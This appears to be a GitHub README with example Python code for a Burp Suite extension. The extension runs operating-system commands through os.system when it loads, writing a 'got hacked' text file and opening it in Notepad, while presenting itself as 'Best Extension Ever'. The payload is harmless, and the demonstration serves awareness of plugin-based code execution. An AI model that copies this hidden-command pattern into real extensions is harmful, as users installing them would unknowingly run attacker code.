 # BurpSuite-Extension-inject
burp suite extensions inject Malicious code ( Example )

Watch Video on youtube 
https://youtu.be/drqN1bk8ZlA


Example Code :

from burp import IBurpExtender 
import os 

class BurpExtender(IBurpExtender):
    def registerExtenderCallbacks(self, callbacks):
     self._callbacks = callbacks
     self._helpers = callbacks.getHelpers()
     callbacks.setExtensionName("Or4nG.M4n | @interestedz")
     print("Or4nG.M4n | @interestedz")
     cmd = 'echo yay!!! i think i got hacked > c:\oh.txt'
     cmd2 = 'notepad.exe c:\oh.txt'
     os.system(cmd)
     os.system(cmd2)
     callbacks.issueAlert("Best Extension Ever | Or4nG.M4n | @interestedz")
     
     
     Goodluck ^_^
